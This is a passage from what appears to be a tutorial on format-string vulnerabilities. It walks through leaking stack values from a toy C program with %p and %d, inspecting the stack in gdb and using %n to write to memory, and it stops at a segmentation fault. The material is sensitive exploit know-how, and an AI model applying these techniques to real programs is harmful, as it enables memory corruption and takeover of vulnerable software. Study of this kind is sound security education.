     ./a.out 1 %p.%p.%p
    0x2f.0x80496e0.0x80484c2
    a = 1

Hum, interesting, it seems that we can access variable's address, but can we access the value?

    $ ./a.out 1 %d.%d.%d.%d.%d.%d.%d
    47.134518548.134513890.3.-1073742604.-1073742588.1
    a = 1
    $ ./a.out 2 %d.%d.%d.%d.%d.%d.%d
    47.134518548.134513890.3.-1073742604.-1073742588.2
    a = 2

Nice! It seems that the 8th value is linked to `a`. Let's explore the memory with `gdb` to ensure that is true.

    $ gdb a.out
    (gdb) disass main
    Dump of assembler code for function main:
       ...
       0x08048461 <+54>:    push   %eax
       0x08048462 <+55>:    call   0x80482f0 <printf@plt>
       0x08048467 <+60>:    add    $0x10,%esp
       ...
    End of assembler dump.
    (gdb) b *0x08048462
    Breakpoint 1 at 0x8048462
    (gdb) r 2 %d.%d.%d.%d.%d.%d.%d
    Starting program: /tmp/aa/a.out 2 %d.%d.%d.%d.%d.%d.%d
    Breakpoint 1, 0x08048462 in main ()
    (gdb) x/10wx $esp
    0xbffffc00:     0xbffffe13      0x0000002f      0x08049714      0x080484e2
    0xbffffc10:     0x00000003      0xbffffcd4      0xbffffce4      0x00000002
    0xbffffc20:     0xbffffc40      0xb7fc9000
    (gdb) x/s 0xbffffe13
    0xbffffe13:     "%d.%d.%d.%d.%d.%d.%d"

We can see the first element on the stack is the address to our string, and at `0xbffffc10` is our `2` value. So we have a direct access to it's value / address using the `%d`/`%p` modifier. 

Great, we can print memory, but it's far more interesting to be able to write in memory. For that we can use the `%n` modifier:

> returns the number of characters written so far by this call to the function.  The result is written to the value pointed to by the argument.

So if we do something like:


    printf("1234%n", n);

`n` will be equal to `4`.

Let's try that with our program, just replace the last `%d` with `%n`:

    (gdb) r 2 %d.%d.%d.%d.%d.%d.%n
    Starting program: /tmp/aa/a.out 2 %d.%d.%d.%d.%d.%d.%n
    Breakpoint 1, 0x08048462 in main ()
    (gdb) c
    Continuing.
    Program received signal SIGSEGV, Segmentation fault.
    0xb7e677ec in _IO_vfprintf_internal (s=0xb7fc9ac0 <_IO_2_1_stdout_>, format=<optimized out>,
        format@entry=0xbffffe13 "%d.%d.%d.%d.%d.%d.%n", ap=0xbffffc20 "@\374\377\277", ap@entry=0xbffffc04 "/") at vfprintf.c:1641
    1641    vfprintf.c: No such file or directory.
